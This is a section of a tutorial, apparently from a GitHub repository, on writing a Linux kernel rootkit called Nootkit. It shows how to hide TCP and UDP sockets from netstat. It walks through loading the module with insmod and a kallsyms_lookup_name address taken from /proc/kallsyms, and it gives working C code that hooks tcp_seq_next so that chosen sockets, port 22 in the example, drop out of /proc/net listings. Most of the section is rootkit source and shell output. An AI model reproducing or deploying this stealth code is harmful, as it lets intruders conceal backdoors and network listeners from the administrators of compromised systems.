 # Nootkit Section 3

## `netstat` In The Kernel

From a quick `strace`, it seems that `netstat` first iterates over all `/proc/*/fd/*` entries,
`readlink`s each one (which probably yields some socket identifier as seen with the `readlink` shell
utility on such a link of a socket file descriptor),

And finally reads `/proc/net/{tcp, udp, ...}` to get details for each socket.

I read somewhere ([here](https://utcc.utoronto.ca/~cks/space/blog/linux/ReplacingNetstatNotBad)) that
the `ss` command, which is nowadays prevalent, uses *netlink sockets* to read socket metadata -
and that is a whole 'nother mechanism.

With all these APIs we have to make a choice (or just do 'em all I ain't scared).
I think it would make sense to stick to hiding from the `netstat` implementation alone for this section.

### What To Hook?

The age old question, asked in many forms throughout time by hackers and fishermen alike.

Do we hide from the procfs dirlist? Or maybe from the `/proc/net/*` outputs???

Luckily we already have a dirlist hider in our hands, and we can see if that capability is enough:

```sh
# start listening socket
nc -l 0.0.0.0 1337 &

netstat -anop | grep 1337
>>> tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      2119/nc              off (0.00/0/0)

# check /proc/pid/fd to see which inode/filename we need to hide from the dirlist
ls -li /proc/2119/fd
>>> total 0
>>> 29008 lrwx------ 1 root root 64 Jul  4 20:55 0 -> /dev/pts/0
>>> 29009 lrwx------ 1 root root 64 Jul  4 20:55 1 -> /dev/pts/0
>>> 29010 lrwx------ 1 root root 64 Jul  4 20:55 2 -> /dev/pts/0
>>> 29011 lrwx------ 1 root root 64 Jul  4 20:55 3 -> 'socket:[25736]'

# hide inode 29011 and rerun netstat to see if the socket is still visible
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=29011

# fd 3 is hidden
ls -li /proc/2119/fd
>>> total 0
>>> 29008 lrwx------ 1 root root 64 Jul  4 20:55 0 -> /dev/pts/0
>>> 29009 lrwx------ 1 root root 64 Jul  4 20:55 1 -> /dev/pts/0
>>> 29010 lrwx------ 1 root root 64 Jul  4 20:55 2 -> /dev/pts/0

netstat -anop | grep 1337
>>> tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

Ah, if we only hide from the dirlist, `netstat` will still register the socket as being open, probably due to it
still being present in `/proc/net/tcp` - the only information lost is the socket's owning process, which
makes sense.

So either way, we'll have to hide from the various `/proc/net`s - additionaly hiding sockets from dirlists
may or may not be required.

### `/proc/net/*` Implementation

My intent was to find some function where, as in the previous section, we could sit "inline" and filter
existing sockets from appearing in the output of `/proc/net/*`. Of course, each file in `/proc/net` has
a different implementation of read operations.

Browsing around `/fs/proc/proc_net.c` in the kernel source, I found the exported symbol `proc_create_net_data`,
and some of it's brothers and sisters with slightly different names - these are used by the kernel or by external
modules to define new psuedo-files under `/proc/net`!

The one for `/proc/net/tcp` is defined in `/net/ipv4/tcp_ipv4.c`:

```C
static int __net_init tcp4_proc_init_net(struct net *net)
{
    if (!proc_create_net_data("tcp", 0444, net->proc_net, &tcp4_seq_ops,
            sizeof(struct tcp_iter_state), &tcp4_seq_afinfo))
        return -ENOMEM;
    return 0;
}
```

The operations, which according to [this](https://docs.kernel.org/filesystems/seq_file.html) nice document explaining
the `seq_file` interface, are used to initialize and use an iterator. Good!

The function which returns the next element in the iterator is `tcp_seq_next`, and it's even exported:

```C
void *tcp_seq_next(struct seq_file *seq, void *v, loff_t *pos)
{
    struct tcp_iter_state *st = seq->private;
    void *rc = NULL;

    if (v == SEQ_START_TOKEN) {
        rc = tcp_get_idx(seq, 0);
        goto out;
    }

    switch (st->state) {
    case TCP_SEQ_STATE_LISTENING:
        rc = listening_get_next(seq, v);
        if (!rc) {
            st->state = TCP_SEQ_STATE_ESTABLISHED;
            st->bucket = 0;
            st->offset = 0;
            rc = established_get_first(seq);
        }
        break;
    case TCP_SEQ_STATE_ESTABLISHED:
        rc = established_get_next(seq, v);
        break;
    }
out:
    ++*pos;
    st->last_pos = *pos;
    return rc;
}
EXPORT_SYMBOL(tcp_seq_next);
```

It's understandable that `rc` in some way represents the TCP socket information as it's what the function yields,
but what is it really?

Well, we can just take a look at the called functions `listening_get_next` and `established_get_next` and see how they
construct this value. Lo and behold, it's a `struct sock`! This struct contains everything we need to base our hide filter on.

So now remains just constructing the hook logic to implement within the function.

## Hooking `tcp_seq_next` (And `seq_file.op.next` Methods In General)

No need to get sleezy, we can do something cheezy like this:

```C
void *tcp_seq_next_hook(struct seq_file *seq, void *v, loff_t *pos)
{   
    /* original tcp_seq_next_hook code */

    struct tcp_iter_state *st = seq->private;
    void *rc = NULL;

    if (v == SEQ_START_TOKEN) {
        rc = ksyms__tcp_get_idx(seq, 0);
        goto out;
    }

    switch (st->state) {
    case TCP_SEQ_STATE_LISTENING:
        rc = ksyms__listening_get_next(seq, v);
        if (!rc) {
            st->state = TCP_SEQ_STATE_ESTABLISHED;
            st->bucket = 0;
            st->offset = 0;
            rc	  = ksyms__established_get_first(seq);
        }
        break;
    case TCP_SEQ_STATE_ESTABLISHED:
        rc = ksyms__established_get_next(seq, v);
        break;
    }
out:
    ++*pos;
    st->last_pos = *pos;

    /* hook code */

    if (rc) {
        printk(KERN_INFO "==== SOCKET ====");
        printk(KERN_INFO "sk_prot: %s", ((struct sock *)rc)->sk_prot->name);
        printk(KERN_INFO "sk_daddr: %x", ((struct sock *)rc)->sk_daddr);
        printk(KERN_INFO "sk_rcv_saddr: %x", ((struct sock *)rc)->sk_rcv_saddr);
        printk(KERN_INFO "sk_dport: %d", ((struct sock *)rc)->sk_dport);
        printk(KERN_INFO "sk_num: %d", ((struct sock *)rc)->sk_num);

        if (((struct sock *)rc)->sk_num == 22) {
            printk(KERN_INFO "hiding socket!");
            return seq->op->next(seq, rc, pos);
        }
    }

    /* original tcp_seq_next_hook code */

    return rc;
}
```

At the end of the function, before yielding the `struct sock`, we can implement our filters;
and to actually hide a socket, we need only to call the `next` method (which is actually just our hook function
again) with a twist; `rc` is not just a `struct sock`! It is also used as some sort of position descriptor or whatnot.

We can see this in action in `fs/seq_file.c`, in `traverse` - which actually uses the `next` method to iterate:

```C
static int traverse(struct seq_file *m, loff_t offset) {
    // ...
    p = m->op->next(m, p, &m->index);
    // ...
}
```

The **return value** is used as the `v` argument.
So we replicate just that as done above, and we can successfully hide TCP sockets (IPv4 & IPv6!) :D

We'll repeat the same process for UDP sockets, see the full implementation in [src/hide/proc_net.c](../src/hide/proc_net.c).
